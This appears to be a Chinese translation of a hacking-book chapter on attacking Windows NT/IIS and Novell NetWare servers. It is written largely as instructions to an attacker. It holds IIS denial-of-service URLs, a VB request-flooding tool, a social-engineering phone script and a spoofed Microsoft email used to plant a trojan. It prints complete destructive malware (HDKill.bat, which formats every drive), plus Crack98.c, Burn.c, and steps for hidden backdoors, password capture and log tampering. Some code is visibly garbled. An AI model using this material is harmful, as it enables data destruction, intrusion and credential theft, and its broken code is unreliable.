**概要：** 自定义 URL 脚本可能使 Win NT Internet Information 服务器（IIS）服务守护进程困惑，从而导致服务拒绝。

**攻击状态：** 完全拒绝服务。

**漏洞：** Win NT IIS，版本 3、4、5。

**突破：** 黑客通过 Web 浏览器发送攻击特定应用程序服务的自定义 URL 脚本，在此情况下是 newdsn.exe，导致访问违规，最终使 IIS 服务崩溃。执行时，受害者可能会收到著名的 Dr. Watson 应用程序错误，而资源退化极少（如图 10.10 所示）。


**图 10.8** 使用 Telnet 攻击 Windows NT。


**图 10.9** Telnet 黑客攻击的拒绝服务影响。


**图 10.10** Dr. Watson 出手相助。

此时，IIS 可能会立即崩溃，或在计划的管理服务中断时崩溃——基本上是在管理关闭和/或服务重启时。破坏性请求包括以下 URL：

- www.victim.com/Scripts/Tools/Newsdn.exe?Createdatabase
- www.victim.com/Scripts/Tools/Newsdn.exe?Create

### 严重拥堵

**概要：** 自定义 HTTP 请求饱和可导致严重的资源退化。

**攻击状态：** CPU 拥堵。

**漏洞：** Win NT 3x、4 和 Internet Information Server 版本 3、4、5。

**突破：** 使用为无限命中次数编程的简单“地下”IIS 攻击软件模块（见图 10.11），远程攻击者可以导致严重的 CPU 拥堵，进而导致资源退化，最终可能导致服务拒绝。此处展示的程序是用 Visual Basic 编写的，仅包含单个窗体（见图 10.12）。


```vb
main.frm Private Stopper&
Private Sub Command1_Click()
On Error GoTo ErrorHandler
If Command1.Caption = "begin" Then
    If IsNumeric(Text2.Text) = False Then
        MsgBox "Please enter a valid amount!", vbExclamation, "" : Text2.Text = "0" : Exit Sub
    Command1.Caption = "stop"
    Text3.Visible = True
    For a = 1 To Text2.Text
        If Stopper& = 1 Then Exit Sub
        Do While Inet1.StillExecuting
            DoEvents
        Loop
        Inet1.Execute Text1.Text, "GET " & Text1.Text
        Text3.Text = Text3.Text + 1
    Next a
Else
    Stopper& = 1
    Command1.Caption = "begin"
    Text3.Visible = False
End If
Exit Sub
ErrorHandler:
MsgBox "Please enter a valid web server!", vbInformation, ""
Exit Sub
End Sub
```

## 系统控制

本节的目的是在 Win NT 服务器上重现一种常见的系统控制攻击。针对 IT 人员的此类攻击几乎每天都在发生。为了简化，将此攻击分为几个轻松完成的步骤：

### 步骤 1：搜索

在此步骤中，攻击者选择一名 IT 人员作为受害者。无论攻击者是否已经知道受害者，或者是在搜索受害者的公司网站，进行一些社会工程以揭示目标电子邮件地址都花费很少的精力。值得注意的是，一些网站实际上公开了 IT 人员的支持电子邮件地址，更值得注意的是，还包括个人姓名、地址甚至照片。

这种社会工程技术示例就像从婴儿手中夺走糖果一样容易：

- **黑客：** “早上好；我是微软的 Joe Hacker。请转接给你们的 IT 部门。他们期待我的来电，因为我在回复支持电话，工单号 110158。”
- **前台：** “哦，好的。您知道您要联系的人的名字吗？”
- **黑客：** “不，抱歉... 来电者没有留下名字... 等等，让我查一下...（黑客在键盘上打字的声音）。不，只有这个联系电话。”
- **前台：** “我会把您转给汤姆；他在 IT 部。他会知道该把您转给谁。”
- **汤姆：** “你好？”
- **黑客：** “早上好，汤姆；我是微软支持的 Joe Hacker。我在回复支持电话，工单号 110158，我打这个电话是为了将您的员工添加到我们的自动 NT 安全警报列表中。”
- **汤姆：** “您原本想联系谁？”
- **黑客：** “我们的终端今天早上宕机了，我只有这个联系电话。我只需要一个 IT 人员电子邮件地址，以便添加到我们的自动 NT 安全警报列表中。当有针对任何已证实的 NT 漏洞的新补丁可用时，收件人将收到更新。目前，有三个新补丁在队列中。另外…”（被打断）
- **汤姆：** “太棒了；试图跟上这些补丁很头疼。”
- **黑客：** “这里显示您的主要 Web 服务器正在运行 IIS。是哪个版本？”
- **汤姆：** “信不信由你，是 3.0。我们完全忙不过来，所以把它搁置了。您可以使用我的地址接收公告；它是 tom.fooled@victim.com。”
- **黑客：** “视为已完成，工单关闭。祝您愉快。”

### 步骤 2：警报

在此步骤中，攻击者决定远程守护进程及伴随消息。在此特定情况下，攻击者选择了 phAse Zero：

**端口：** 555、9989

**服务：** Ini-Killer、NeTAdmin、phAse Zero、Stealth Spy

**黑客策略：** 除了间谍功能和文件传输外，这些木马的最重要目的是破坏目标系统。唯一的宽慰是，这些守护程序只能在执行需要在主机上运行的安装程序时感染系统。

使用如前本书中提到的邮件伪造程序，攻击者的消息（伪造自微软）到达了：

```
>On 10 Oct 2000, at 18:09, support@microsoft.com wrote:
>
>Issue
>
>======
>
>This vulnerability involves the HTTP GET method, which is used to obtain
>
>information from an IIS Web server. Specially malformed GET requests can
>
>create a denial-of-service situation that consumes all server resources,
>
>causing a server to “hang.” In some cases, the server can be put back into
>
>service by stopping and restarting IIS; in others, the server may need to
>
>be rebooted. This situation cannot happen accidentally. The malformed GET
>
>requests must be deliberately constructed and sent to the server. It is
>
>important to note that this vulnerability does not allow data on the
>
>server to be compromised, nor does it allow any privileges on it to be usurped.
```


## 受影响的软件版本

- Microsoft Internet Information Server，x86 和 Alpha 平台上的 3.0 和 4.0 版本。

## 客户应采取的措施

此漏洞的附带补丁是完全支持的，并应立即应用，因为所有系统均被确定存在遭受攻击的风险。Microsoft 建议客户根据物理可访问性、网络、Internet 连接以及其他因素，评估此漏洞对其系统构成的风险程度。

## 获取此问题的支持

这是一个受支持的补丁。如果您在安装此补丁时遇到问题，或需要有关此补丁的技术支持，请联系 Microsoft 技术支持。有关联系 Microsoft 技术支持的信息，请参见 http://support.microsoft.com/support/contact/default.asp。

## 修订记录

- 2000 年 10 月 10 日：创建公告

如需了解有关 Microsoft 产品的额外安全相关信息，请访问 http://www.microsoft.com/security。

Microsoft 知识库中提供的信息按“原样”提供，不附带任何形式的保证。Microsoft 否认所有明示或暗示的保证，包括适销性和特定用途适用性的保证。在任何情况下，Microsoft 公司或其供应商均不对任何损失（包括直接的、间接的、偶发的、后果性的、业务利润损失或特殊损失）承担责任，即使 Microsoft 公司或其供应商已被告知可能出现此类损失的可能性。某些州不允许排除或限制后果性或偶发性损失的责任，因此前述限制可能不适用。

(c) 2000 Microsoft Corporation. 保留所有权利。使用条款。

您之所以收到此电子邮件公告，是因为您注册了 Microsoft 产品安全通知服务。您可以随时通过发送电子邮件至 MICROSOFT_SECURITY-SIGNOFF-REQUEST@ANNOUNCE.MICROSOFT.COM 取消订阅此电子邮件通知服务。主题行和消息正文不会用于处理请求，可以包含您喜欢的内容。

如需了解有关 Microsoft 安全通知服务的更多信息，请访问 http://www.microsoft.com/security/bulletin.htm。如需了解有关 Microsoft 产品的安全相关信息，请访问位于 http://www.microsoft.com/security 的 Microsoft 安全顾问网站。

## 步骤 3：另一个成功的受害者

在此步骤中，攻击者只需等待几天，然后使用 phAse zero 客户端执行完全远程控制，如图 10.13 所示。

## 杂项混乱

### Windows 3x, 9x, 2000

- **破坏状态**：硬盘彻底销毁。
- **文件**：HDKill.bat。
- **概述**：一些黑客喜欢在其受害者中制造混乱。例如，这个恶意的硬盘杀手被附加在无计数量的电子邮件中，并作为 ReadMe.bat 文件随游戏评估程序分发。在其他情况下，黑客费心潜入系统，只为将此文件添加到系统启动过程中。仔细检查代码即可揭示其目的。


**图 10.13** 通过 phAse Zero 实现完全控制。

### Hdkill.bat

```batch
@echo off
:start
cls
echo PLEASE WAIT WHILE PROGRAM LOADS...
call attrib -r -h c:\autoexec.bat >nul
echo @echo off >c:\autoexec.bat
echo call format c: /q /u /autotest >nul >>c:\autoexec.bat
call attrib +r +h c:\autoexec.bat >nul
set drive=
set alldrive=c d e f g h i j k l m n o p q r s t u v w x y z
echo @echo off >drivechk.bat
echo @prompt %%%%comspec%%%% /f /c vol %%%1: $b find "Vol" > nul > {t}.bat
%comspec% /e:2048 /c {t}.bat >>drivechk.bat
del {t}.bat
echo if errorlevel 1 goto enddc >>drivechk.bat
echo PLEASE WAIT WHILE PROGRAM LOADS...
echo @prompt %%%%comspec%%%% /f /c dir %%%1:..\ad/w/ - p $b find "bytes" > nul >{t}.bat
%comspec% /e:2048 /c {t}.bat >>drivechk.bat
del {t}.bat
echo if errorlevel 1 goto enddc >>drivechk.bat
cls
echo PLEASE WAIT WHILE PROGRAM LOADS...
echo @prompt dir %%%1:..\ad/w/ - p $b find "0 bytes free" > nul >{t}.bat
%comspec% /e:2048 /c {t}.bat >>drivechk.bat
del {t}.bat
echo if errorlevel 1 set drive=%drive% %1 >>drivechk.bat
cls
echo PLEASE WAIT WHILE PROGRAM LOADS...
echo :enddc >>drivechk.bat
:testdrv
for %a in (%alldrive%) do call drivechk.bat %a >nul
del drivechk.bat >nul
:form_del
call attrib -r -h c:\autoexec.bat >nul
echo @echo off >c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system... >>c:\autoexec.bat
echo for %%%a in (%drive%) do call format %%%a: /q /u /autotest > nul >>c:\autoexec.bat
echo cls >>c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system....   >>>c:\autoexec.bat
echo for %%%%a in (%drive%) do call c:\temp.bat %%%%a Bunga >nul
  >>>c:\autoexec.bat
echo cls >>>c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system....   >>>c:\autoexec.bat
echo for %%%%a in (%drive%) do call deltree /y %%%%a:\ >nul
  >>>c:\autoexec.bat
echo cls >>>c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system....   >>>c:\autoexec.bat
echo for %%%%a in (%drive%) do call format %%%%a: /q /u /autotest >nul
  >>>c:\autoexec.bat
echo cls >>>c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system....   >>>c:\autoexec.bat
echo for %%%%a in (%drive%) do call c:\temp.bat %%%%a Bunga >nul
  >>>c:\autoexec.bat
echo cls >>>c:\autoexec.bat
echo echo Loading Windows, please wait while Microsoft Windows recovers your system....   >>>c:\autoexec.bat
echo for %%%%a in (%drive%) call deltree /y %%%%a:\ >nul
  >>>c:\autoexec.bat
echo cd\ >>>c:\autoexec.bat
echo cls >>>c:\autoexec.bat
echo echo Welcome to the land of death. Munga Bunga's Multiple Hard Drive Killer version 4.0. >>>c:\autoexec.bat
echo echo If you ran this file, then sorry, I just made it. The purpose of this program is to tell you the following... >>>c:\autoexec.bat
echo echo 1. To make people aware that security should not be taken for granted. >>>c:\autoexec.bat
echo echo 2. Love is important, if you have it, truly, don't let go of it like I did! >>>c:\autoexec.bat
echo echo 3. If you are NOT a vegetarian, then you are a murderer, and I'm glad your HD is dead. >>>c:\autoexec.bat
echo echo 4. If you are Australian, I feel sorry for you, accept my sympathy, you retard. >>>c:\autoexec.bat
echo echo 5. Don't support the following: War, Racism, Drugs and the Liberal Party.>>>c:\autoexec.bat
echo echo. >>>c:\autoexec.bat
echo echo Regards, >>>c:\autoexec.bat
echo echo. >>>c:\autoexec.bat
echo echo Munga Bunga >>>c:\autoexec.bat
call attrib +r +h c:\autoexec.bat

:mkdir
if exist c:\temp.bat attrib -r -h c:\temp.bat >nul
echo @echo off >c:\temp.bat
echo %~1> >>c:\temp.bat
echo cd\ >>c:\temp.bat

echo :startmd >c:\temp.bat
echo for %%%%a in ("if not exist %%2\nul md %%2" "if exist %%2\nul cd %%2") do %%%%a >>c:\temp.bat
echo for %%%%a in (">ass_hole.txt") do echo %%%%a Your Gone @@$hole >>> c:\temp.bat
echo if not exist
echo %%1\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\ %%%2\\ %%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2\%%%2 c l\%%%2\%%%2\%%%2\%%%2\nul goto startmd >>c:\temp.bat
call attrib +r +h c:\temp.bat >nul
cls
echo Initializing Variables...
for %%a in (%drive%) do call format %%a: /q /u /autotest >nul
cls
echo Initializing Variables...
echo Validating Data...
for %%a in (%drive%) do call c:\temp.bat %%a Munga >nul
cls
echo Initializing Variables...
echo Validating Data...
echo Analyzing System Structure...
for %%a in (%drive%) call attrib -r -h %%a:\ /S >nul
call attrib +r +h c:\temp.bat >nul
call attrib +r +h c:\autoexec.bat >nul
cls
echo Initializing Variables...
echo Validating Data...
echo Analyzing System Structure...
echo Initializing Application...
for %%a in (%drive%) call deltree /y %%a:\*. >nul
cls
echo Initializing Variables...
echo Validating Data...
echo Analyzing System Structure...
echo Initializing Application...
echo Starting Application...
for %%a in (%drive%) do call c:\temp.bat %%a Munga >nul
cls
echo Thank you for using a Munga Bunga product.
echo.
echo Oh and, Bill Gates rules, and he is not a geek, he is a good looking genius.
echo.
echo Here is a joke for you...
```


echo.
echo     Q). 做鸡蛋最糟糕的事情是什么？
echo     A). 你只会被“下”一次蛋。
echo.
echo 哈哈，明白了吗？你不觉得这个笑话很妙吗？
echo.
:end

**攻击状态：** 密码窃取。

**文件：** ProgenicMail.zip。

**摘要：** 黑客利用 ProgenicMail 技术欺骗受害者发送所有缓存的系统密码。该程序运行方式简单，按文件分别解释更清晰：

- *Psetup.dat。* 此文件包含自定义配置选项：
  - [Setup]
  - Mail=（转发密码到的电子邮件地址）
  - Data=ProgenicMail（如果留空，程序将在每次执行时发送密码）

- *setup.dll。* 此文件可以用任何 .exe 替换，以隐藏攻击的真实目的。例如，攻击者可以将 joke.exe 重命名为 setup.dll。然后，程序在将所有系统密码转发给攻击者的同时启动 setup.dll（实际上是 joke.exe）。

**攻击状态：** 不可恢复的文件删除。

**文件：** FFK.exe。

**摘要：** 在渗透系统后，黑客将尝试使用不可恢复的文件删除工具删除日志和回溯证据。该程序由 PhrozeN 开发，目的是快速永久删除文件。例如，使用 Fast File Killer（见图 10.14），删除 4,000 个大小为 3–150 KB 的文件只需大约 30–60 秒，且操作在后台进行，同时不影响其他任务的执行。这些工具通常被编码为通过多次删除或扰乱数据来完全移除文件。


图 10.14 Fast File Killer 运行实例。


图 10.15 使用 NTCrack 进行密码破解。

### Windows NT

**攻击状态：** 暴力密码破解。

**文件：** NTCrack.exe。

**摘要：** NTcrack 是一种常见的地下（Underground）NT 密码破解器。无论是远程还是本地运行，攻击者都可以针对尝试登录的用户名和/或密码移植自定义字典。该工具的独特之处在于模拟登录尝试的速度（见图 10.15）。

**攻击状态：** 管理员权限利用。

**文件：** NTAImin.exe。

**摘要：** 本地攻击者使用 NTAImin 利用存在漏洞的 NT 来宾账户。这个地下（Underground）谜团程序被编码用于修改 NT 域中的通用用户/来宾账户，以获取特权管理员权限。图 10.16 中展示的利用前后捕获画面，说明了群组权限从来宾到管理员的修改过程。

### 其他暴露点

本节以一份关于地下（Underground）Microsoft NT 黑客攻击的汇编结束。

> 本节内容是在游牧移动研究中心（Nomad Mobile Research Centre, NMRC）的帮助下准备的，特别是：Simple Nomad 以及贡献者：Shadowlord, Mindgame, The LAN God, Teiwaz, Fauzan Mirza, David Wagner, Diceman, Craigt, Einar Blaberg, Cyberius, Jungman, RX2, itsme 和 Greg Miller。


**图 10.16** 使用 NTAdmin 进行黑客攻击。

## 常见账户

NT 通常自带两个账户：administrator（管理员）和 guest（来宾）。在许多网络环境中，未设置密码的管理员和来宾账户已被揭露。然而，系统管理员可能会重命名管理员账户。黑客知道，通过输入 “NBSTAT-A ipadress” 可以揭示新的管理员账户。

## 密码

- **访问密码文件。** NT 安全数据库的位置在 \WINNT\SYSTEM32\CONFIG\SAM。默认情况下，SAM 是可读的，但由于被系统组件使用，它是锁定的。然而，可能存在 SAM.SAV 文件，可以读取这些文件以获取密码信息。

- **关于密码破解的更多说明。** 标准的 Windows NT 密码是通过对用户密码进行 Unicode 转换，然后使用 MD4 算法获取 16 字节值推导而来的；该哈希值实际上是 NT 的“密码”。为了破解 NT 密码，需要从密码数据库中提取用户名和对应的单向哈希值。通过结合本章前文定义密码破解程序以及黑客程序员 Jeremy Allison 开发的 PWDUMP，这一过程可以变得轻而易举。

## 从控制台

- **信息收集。** 在域控制器的控制台上，黑客使用以下步骤获取目标机器上的账户列表。有了用户账户列表后，他们可以针对个别攻击：
  1. 从用户管理器创建与目标的信任关系。
  2. 启动 NT 资源管理器，并右键点击任何文件夹。
  3. 选择“共享”。
  4. 从共享窗口中，选择“添加”。
  5. 从添加菜单中，选择目标 NT 服务器。这将显示目标的整个组列表。
  6. 选择“显示用户”以查看完整用户列表，包括全名和描述。

## Novell NetWare

Novell, Inc. (www.novell.com) 是面向所有类型公司和私人网络（包括内网、外网和互联网）的系统操作软件的主要提供商。自 1983 年以来，Novell NetWare 在企业使用率方面迅速攀升，目前正被美国 81% 的财富 500 强公司使用（根据 Harle Hanks Market Intelligence 的数据）。该公司宣称在加速电子商业变革的同时，在整个网络中提供更强的安全保障。

## 责任/风险

### 进入系统

### 黑客入侵控制台

**摘要：** 简单的技术可以促进控制台突破。

**攻击状态：** 管理员权限利用。

**漏洞：** 4.11 版本之前的所有版本。

**突破方法：** 当 NetWare 管理员加载 NetWare 可加载模块（NLMs）`remote.nlm` 和 `rspx.nlm` 时，黑客寻找标题为 `rconsole.exe` 的程序，通常来自 `//public` 目录。在此阶段，在与管理员和/或目标服务器相同的地址方案下，黑客加载一个 IPX 数据包嗅探器并等待捕获系统密码。在黑客圈子中，一个流行的嗅探器包是 SpyNet（第 8 章更详细地描述了此包）。如果攻击者想要掩盖黑客攻击证据，他或她会通过卸载并重载 conlog.nlm 来从 `//etc/console.log` 中删除系统日志。这会在旧文件（包含证据）之上启动一个新的日志捕获文件。

### 窃取超级用户权限

**摘要：** 自定义编码可以修改标准登录账户以拥有超级用户同等权限。

**攻击状态：** 管理员权限利用。

**漏洞：** NetWare 2x, 3x, 4x, IntraNetWare 4x。

**突破方法：** 对于 Novell 网络上的任何本地黑客来说，诱人的挑战是获取超级用户权限。由著名黑客 Mnemonic 编写的 `Crack98.c` 将超级用户的连接设置为 0，然后在绑定器（bindery）中创建一个用户对象，该对象必须具有等效属性。此时，程序将超级用户等效添加到超级用户等效属性中，从而赋予该账户超级用户状态。

## Crack98.c

```c
#include <stdio.h>
#include <io.h>
#include <fcntl.h>
#include <string.h>
#include <stddef.h>
#include <errno.h>
#include <direct.h>
#include <ntypes.h>

#include <nwbindry.h>
#include <dos.h>
main(int argc, char *argv[]) 
{ 
long task; 
char *account
printf("Crack 98 written by Mnemonic\n"); 
task = SetCurrentTask(-1L); 
SetCurrentConnection(0); 
account = argv[1]; 
while (argc > 1) 
{ 
if (CreateBinderyObject(name, OT_USER, BF_STATIC, 0x31) == 0) 
printf("The account %s has been created\n", account); 
else 
printf("The account %s already exists on the network\n", account); 
CreateProperty(account, OUT_USER, "SECURITY_EQUALS", BF_STATIC | BF_SET,
0x32); 
if (AddBinderyObjectToSet(account, OT_USER, "SECURITY_EQUALS",
"SUPERVISOR", OT_USER) == 0) 
printf("The account %s has been made supervisor equivalent\n", account); 
else 
printf("The account is already supervisor equivalent\n"); 
}
printf("You must enter an account name\n"); 
account = argv[1]; 
}
ReturnBlockOfTasks(&task, 1L); 
ReturnConnection(GetCurrentConnection()); 
return 0;
}
```

## 揭示密码

**摘要：** 内部和本地黑客可以尝试揭示通用密码。

**攻击状态：** 密码窃取。


## 漏洞
所有低于 4.1 的版本。

**入侵：** NetCrack（图 10.17）是 Jim O'Kane 开发的一个程序。通过向 NetWare 的 Bindery 命令中的 `VERIFY_PASSWORD` 函数进行重复的“拨号攻击”，`NetCrack.exe` 试图利用合法查询泄露用户密码。

格式：NETCRACK <UserID>

NetWare 及其关联硬件合作伙伴中常见的用户账户包括：

| PRINT | WANGTEK |
| :------ | :-------- |
| LASER | FAX |
| HPLASER | FAXUSER |


**图 10.17** 使用 NetCrack 进行黑客攻击。

| PRINTER | FAXWORKS |
| :-------- | :-------- |
| LASERWRITER | TEST |
| POST | ARCHIVIST |
| MAIL | CHEY_ARCHSVR |
| GATEWAY | WINDOWS_PASSTHRU |
| GATE | ROOT |
| ROUTER | WINSABRE |
| BACKUP | SUPERVISOR |

### 系统控制

# 后门安装

**概要：** 在获得管理员权限后，黑客只需遵循几个简单步骤即可安装后门。

**黑客状态：** 远程控制。

**漏洞：** NetWare NDS。

**入侵：** 在获得 NetWare 操作系统的访问控制权限后，黑尝试安装一个远程控制的隐蔽后门，该后门可能长时间不被察觉。启动此过程有六个简单步骤：

- 1. 在 NWADMIN 中，高亮显示一个现有容器。
- 2. 在此容器内部创建一个新容器。
- 3. 在此新容器内部创建一个用户。
    - a) 允许该用户对其自己的用户对象拥有完全受托人权限。
    - b) 允许该用户对新的容器拥有完全受托人权限。
    - c) 授予该用户超级用户（supervisory）等同权限。
- 4. 修改新用户的访问控制列表（ACL），使其不可见。
- 5. 调整新容器上的继承权限过滤器，使其不可见。
- 6. 将新容器放入 IT 组容器中，以安装后门并使其登录信息出现在显示活动连接的常规工具中。

### 锁定文件

**概要：** 内部和本地黑客可以通过修改文件可用性来制造混乱。

**黑客状态：** 文件控制。

**漏洞：** NetWare 2x, 3x, 4x, IntraNetWare 4x。

**入侵：** 在获得 NetWare 访问权限后，一些黑客热衷于通过锁定文件来制造混乱。这种与名为 The Grenadier（地下黑客/程序员）开发的 Bastard 程序相关的黑客攻击（图 10.18）在心怀不满的员工中很流行。基本上，程序运行后，只需请求用于锁定修改的文件路径。此时，除非攻击者关闭 *Bastard.exe*、注销或关机，否则其他用户无法打开该文件以供使用。本质上，当关键操作系统运行文件成为此漏洞的受害者时，这会导致网络瘫痪。该程序几乎简单得难以使用：唯一的要求是攻击者对目标文件具有读取访问权限。


**图 10.18** 使用 Bastard 锁定文件。

## 杂项混乱

### 磁盘使用量消失

**概要：** 黑客可以通过填满所有可用空间来导致硬盘崩溃。

**黑客状态：** 系统崩溃。

**漏洞：** NetWare 2/3。

**入侵：** 由臭名昭著的黑客 Jitsu-Disk 编写的 *Burn.c* 通过错误地以每分钟 1 MB 的速度填满错误日志文件来耗尽可用磁盘空间。在许多较旧的 NetWare 系统中都可能发现此特定攻击的残留痕迹。显然，攻击者无需登录即可执行此实用程序。

# Burn.c

```c
#include <dos.h>
typedef unsigned int uint8;

int shreq(int f, uint8 *req, int rl, uint8 *ans, int al)
{
  union REGS r;
  r.w.cx=rl;
  r.w.dx=al;
  r.w.si=((unsigned)(req));
  r.w.di=((unsigned)(ans));
  r.w.ax=0xf200|f;
  int86(0x21,&r,&r);
}

int setconn(int c) /* connect to first server */
{
  union REGS r;
  r.w.ax=0xf000;  /* set preferred connection nr */
  r.w.dx=c+1;
  int86(0x21,&r,&r);
  return(r.w.ax&0xff);
}

/*
 * Main prog
 */
int main()
{
  int err;
  uint8 *nonsense=(uint8 *)calloc(1,sizeof(uint8)*128);
  err=setconn(0);
  for(;;) shreq(74,nonsense,5,nonsense,0);
}
```

# 其他暴露

本节以地下 Novell NetWare 黑客攻击的汇编作为结尾。

> 本节由 Nomad 移动研究中心（NMRC）协助准备，特别是：Simple Nomad 以及贡献者：Shadowlord, Mindgame, The LAN God, Teiwaz, Fauzan Mirza, David Wagner, Diceman, Craigt, Einar Blaberg, Cyberius, Jungman, RX2, itsme, 和 Greg Miller。

- **区分 Novell NetWare 上的有效账户名。** 任何受限账户都应具有足够的访问权限，以便运行位于 SYS:PUBLIC 目录中的 SYSCON。进入后，输入 SYSCON 并回车。转到用户信息以查看所有已定义账户的列表。使用受限账户你看到的详细信息不会很多，但你可以获取账户和用户的完整姓名。如果你以某种有效身份进入，你可以运行 USERLST.EXE 并获取服务器上所有有效账户的列表。
- 如果你没有访问权限怎么办？在这种情况下，你不能在 LOGIN 提示处尝试任何账户名。无论账户名是否有效，它都会要求你输入密码；如果它是有效的且你猜错了密码，如果入侵者检测（Intruder Detection）处于开启状态，你可能会让管理员知道你在做什么。
- 要确定账户是否有效，从 DOS 提示符开始，使用 MAP.EXE 的本地副本。在加载完 NetWare TSR 至 NETX 或 VLM 后，尝试使用服务器名称和卷 SYS 来映射驱动器，例如：
  ```
  MAP G:=TARGET_SERVER/SYS:APPS <enter>
  ```
- 由于你并没有真正登录，系统会提示你输入登录 ID。如果它是有效的 ID，系统会提示你输入密码。如果不是，你会立即收到错误。当然，如果你选择的 ID 没有密码，你将附加并映射到服务器。
- 你可以使用 ATTACH.EXE 做同样的事情：
  ```
  ATTACH TARGET_SERVER/loginid <enter>
  ```
- 同样，如果这是有效的，系统会提示你输入密码，如果不是，你将收到错误。
- **获取超级用户访问权限的其他方法。** 此技术在 NetWare 3.11 版本中最为有效。当超级用户登录时，一个名为 NW-HACK.EXE 的程序执行以下操作：
  - 1. 超级用户密码被更改为 SUPER_HACKER。
  - 2. 服务器上的每个账户都修改为具有超级用户等同权限。
- **保留后门，再次讨论。** 当黑客拥有系统访问权限时，他们希望有一条具有超级用户等同权限的后路返回。你可以使用 SUPER.EXE，它是专门编写来允许非超级用户切换超级用户等同权限的。如果你使用 NW-Hack 获取访问权限，你可以在管理员移除你的超级用户等同权限之前开启切换开关。如果你获得超级用户等同账户的访问权限，赋予 guest 账户超级用户权限，然后以 Guest 身份登录并也开启切换开关。此时，以原始超级用户账户重新登录，并移除超级用户权限。现在 Guest 可以随时切换开启超级用户权限。
- **获取超级用户访问权限，再次讨论。** 如果你有两个卷或未分配的磁盘空间，你可以使用此黑客手段获取超级用户权限：
  - 1. 取消安装所有卷。
  - 2. 将 SYS: 重命名为 SYSOLD:。
  - 3. 将 VOL1:（或等效物）重命名为 SYS:；或者只是在新磁盘上创建一个新的 SYS:。
  - 4. 重新启动服务器。
  - 5. 安装 SYS: 和 SYSOLD:。
  - 6. 以超级用户身份附加到服务器（注意：无法登录）。
  - 7. 将 SYSOLD:\SYSTEM\NETS*.SYS 重命名为 NETS*.OLD。
  - 8. 取消安装卷。
  - 9. 将卷重命名回正确的名称。
  - 10. 再次重新启动服务器。
  - 11. 以超级用户身份登录，这次无需密码。
  - 12. 运行 BINDREST。

在此时，你应该已经以超级用户身份登录。凭借这些权限，你可以创建一个具有超级用户等同权限的新用户，然后使用此新用户重置超级用户的密码。

# 密码

- **访问密码文件。** 在访问 NetWare 中的密码文件时，版本 2x 和 3x 中的所有对象及其属性都保存在 bindery 文件中，而版本 4.x 中则保存在 NDS 数据库中。对象的一个例子可能是打印机、组、个人账户等。对象属性的例子可能包括账户的密码或完整用户名、组的成员列表或全名。版本 2x 和 3x 中 bindery 文件的属性（或标志）被标记为 Hidden 和 System。这些文件位于 SYS: 卷的 SYSTEM 子目录中，如下所示：
  - 版本 2x: NET$BIND.SYS, NET$BVAL.SYS
  - 版本 3x: NET$OBJ.SYS, NET$PROP.SYS, NET$VAL.SYS
  - NET$BVAL.SYS 和 NET$VAL.SYS 分别是版本 2x 和 3x 中密码的实际存储位置。然而，在版本 4.x 中，文件物理位置不同。通过使用 RCONSOLE 实用程序和 Scan Directory 选项，你可以看到 SYS:\_NETWARE 中的文件：
    - VALUE.NDS: NDS 的一部分
    - BLOCK.NDS: NDS 的一部分
    - ENTRY.NDS: NDS 的一部分
    - PARTITIO.NDS: NDS 分区类型
    - MLS.000: 许可证
    - VALLINCEN.DAT: 许可证验证
- **更多关于破解密码的内容。** 与大多数不安全的局域网一样，为了讨论目的，我们假设入侵者检测是关闭的，并且允许未加密的密码。如果你有权访问控制台，无论是直接站在控制台前还是通过 RCONSOLE，你都可以通过加载 NLM 并传递命令行参数来使用 SETPASS.NLM、SETSPWD.NLM 或 SETPWD.NLM 简单地重置密码：

| NLM | 重置的账户 | 支持的 NetWare 版本 |
|---|---|---|
| SETPASS.NLM | 超级用户 | 3x |
| SETSPWD.NLM | 超级用户 | 3x, 4x |
| SETPWD.NLM | 任何有效账户 | 3x, 4x |


如果你能植入密码捕获器或击键读取器，就可以通过位于 `SYS:LOGIN` 目录下的 `LOGIN.EXE` 获取访问权限。放置击键捕获程序的最佳位置是在工作站的路径中，并将 `ATTRIB` 属性设置为隐藏。这样做的优势在于，NetWare 不会察觉你就捕获了密码。另一种替代方案是用 `itisme` 程序替换 `LOGIN.EXE`。该程序配合 `PROP.EXE` 使用，会在 2x 或 3x 版本的服务器上创建独立的 bindery 属性，其中包含密码。使用这些工具时，执行步骤如下：

- 1. 获得对已以 Supervisor（主管）或等效权限登录的工作站的访问权限（或使用其他技术，如别处所述）。
- 2. 使用 `-C` 选项运行 `PROP.EXE` 文件。这将为每个 bindery 对象创建新的属性。
- 3. 用 `itisme` 版本替换 `SYS:LOGIN` 目录中的 `LOGIN.EXE`。
- 4. 将 `PROP.EXE` 保留在软盘中，并在几天后使用任何有效登录身份检查服务器。
- 5. 要检查捕获的密码，请在登录后输入 `PROP -R`。这可以重定向到文件或打印机。

## 计费与日志记录

- **破坏计费。** 计费是 Novell 用于控制和管理服务器访问的技术。管理员设置费率基于读取和写入的块数、服务请求、连接时间和磁盘存储。账户通过被赋予一定数值来“支付”服务费用，计费服务器会针对这些项目进行扣减。任何有效账户，包括非主管账户，都可以通过运行 `SYSCON` 并尝试访问计费功能来检查计费是否处于激活状态。

要破坏计费，你必须通过以下三个简单步骤将其关闭：

- 1. 欺骗你的地址。这取决于网络接口卡（NIC）；通常，你可以通过在 `NET.CFG` 文件的 Link Driver（链路驱动程序）部分添加以下行来实现：
  
  ```
  NODE ADDRESS xxxxxxxxxxxx
  ```
  
  其中 xxxxxxxxxxxx 是 12 位 MAC 层地址。
- 2. 如果你使用的是后门，请使用 `SUPER.EXE` 激活它。
- 3. 运行 `SYSCON` 来删除计费，然后选择 Accounting（计费）、Accounting Servers（计费服务器），并按下 Delete（删除）键。`NETSACCT.DAT` 文件中的最后一个条目将是你的登录，并带有欺骗过的节点地址时间戳。

**破坏日志记录。** 这些步骤需要控制台和 Supervisor 访问权限：

- 1. 在控制台输入 `MODULES`。查找 `CONLOG.NLM` 以验证活动日志记录。
- 2. 在服务器的 `SYS:ETC` 中查找名为 `CONSOLE.LOG` 的文件，这是一个纯文本文件，你可以编辑它，但不能在 `CONLOG` 运行时进行编辑。
